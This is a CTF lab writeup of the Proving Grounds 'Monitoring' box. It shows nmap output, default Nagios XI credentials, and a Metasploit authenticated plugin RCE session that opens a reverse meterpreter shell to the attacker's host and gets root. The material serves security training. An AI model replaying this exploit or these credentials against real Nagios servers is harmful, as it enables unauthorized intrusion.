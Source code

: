 ```yaml
---
title: "Proving grounds Play: Monitoring"
layout: post
date: 2023-09-25 03:00
categories: writeup
---
```


Proving grounds Play - Monitoring CTF writeup.

## Nmap

```sh
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b88c40f65f2a8bf792a8814bbb596d02 (RSA)
|   256 e7bb11c12ecd3991684eaa01f6dee619 (ECDSA)
|_  256 0f8e28a7b71d60bfa62bdda36dd14ea4 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=ubuntu
| Issuer: commonName=ubuntu
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-08T17:59:00
| Not valid after:  2030-09-06T17:59:00
| MD5:   e0671ea392c2ec73cb21de0e73dfcb66
|_SHA-1: e39cc9b6c35bb6083dd0cd25e60fcb616551da77
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 8E1494DD4BFF0FC523A2E2A15ED59D84
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Nagios XI
|_http-server-header: Apache/2.4.18 (Ubuntu)
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
_http-title: Nagios XI
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Issuer: commonName=192.168.1.6/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-09-08T18:28:08
| Not valid after:  2030-09-06T18:28:08
| MD5:   20f0951f8eff1b69ef3f1b1efb4c361f
|_SHA-1: cc400ad760cf49591c92d9ab0f06106c18f66661
```

## Web PORT: 80

![img](/assets/images/CTF/Proving_Grounds/Monitoring/web.png)

The port 80 is restricting the users from logging into the admin dashboard.

```text
NSP: Sorry Dave, I can't let you do that
```

## Web PORT: 443

![img](/assets/images/CTF/Proving_Grounds/Monitoring/web.png)

Use credentials `nagiosadmin:admin` to login to the portal. The Nagios XI 5.6.0 is vulnerable to authenticated remote code execution. The foothold can be acheived by using the metasploit module.

## Foothold

```sh
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set password admin
password => admin
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set lhost 192.168.45.233
lhost => 192.168.45.233
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RHOSTS 192.168.167.136
RHOSTS => 192.168.167.136
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set RPORT 443
RPORT => 443
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.45.233:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.0
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3045348 bytes) to 192.168.167.136
[*] Meterpreter session 1 opened (192.168.45.233:4444 -> 192.168.167.136:51442) at 2023-09-25 07:06:23 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > shell
whoami
root
```

**Foothold Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).